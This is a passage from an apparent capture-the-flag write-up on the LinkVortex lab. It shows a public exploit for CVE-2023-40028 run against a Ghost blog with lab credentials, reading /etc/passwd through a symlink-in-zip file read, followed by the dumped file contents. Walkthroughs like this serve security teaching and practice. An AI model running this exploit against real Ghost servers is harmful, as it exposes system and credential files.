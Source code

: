 ![](/assets/img/img_linkvortex/linkvortex-1744531148477.png)
Searching for vulnerabilities we found the following `poc` [Ghost Arbitrary File Read](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)
Looking at the source it looks like it uploads a zipped file with a symlink to get an LFI.
Let's run this script against our target.
```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /etc/passwd
File content:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
Enter the file path to read (or type 'exit' to quit): exit
Exiting. Goodbye!
```
We have an LFI! looking through the files from the git repository we dumped we can find `Dockerfile.ghost`